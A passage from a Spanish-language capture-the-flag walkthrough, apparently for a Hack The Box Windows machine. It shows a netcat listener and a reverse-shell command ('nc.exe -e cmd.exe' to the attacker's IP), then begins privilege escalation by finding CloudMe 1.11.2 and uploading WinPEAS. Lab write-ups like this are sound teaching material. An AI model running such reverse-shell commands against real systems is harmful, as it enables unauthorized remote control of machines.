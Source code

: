 ```bash
```
{: .nolineno}

Se pone a la escuhca con `nc` para recibir la conexión.

```bash
rlwrap nc -lvp 1234
listening on [any] 1234 ...
```
{: .nolineno}

Y se envia la shell reversa hacia el equipo atacante el con `nc` que se transfirío anteriormente.

```bash
.\nc.exe -e cmd.exe 10.10.14.14 1234
```
{: .nolineno}

```bash
rlwrap nc -lvp 1234
listening on [any] 1234 ...
10.10.10.198: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49753
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>
```
{: .nolineno}


## Escalada de Privilegios

Al revisar los archivos en el equipo, se puede observar la presencia de un binario relacionado con algo llamado **CloudMe** en su versión 1.11.2.

```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,861,764,096 bytes free
```
{: .nolineno}

>CloudMe es un servicio de almacenamiento de archivos operado por CloudMe AB que ofrece almacenamiento en la nube, sincronización de archivos y software de cliente.
{: .prompt-info}

Para obtener más información del equipo, se realiza la transferencia de **WinPEAS** con el fin de enumerar sus características.
